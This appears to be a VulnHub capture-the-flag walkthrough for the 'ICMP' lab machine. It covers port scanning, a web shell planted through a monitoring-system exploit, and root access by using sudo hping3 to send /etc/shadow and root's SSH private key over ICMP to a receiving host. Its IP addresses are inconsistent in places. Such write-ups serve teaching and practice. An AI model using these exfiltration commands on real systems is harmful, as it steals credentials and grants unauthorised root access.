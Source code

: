 # ICMP

## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️

Easy box, monitor resources

This works better with VirtualBox rather than VMware

{: .prompt-info }

Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](http://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```

On the target machine, we should do as follows to get the shadow file.

```
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```

```
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```

Lastly, I could log in to the system.

```
ssh root@10.0.2.24 -i id_rsa
```

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---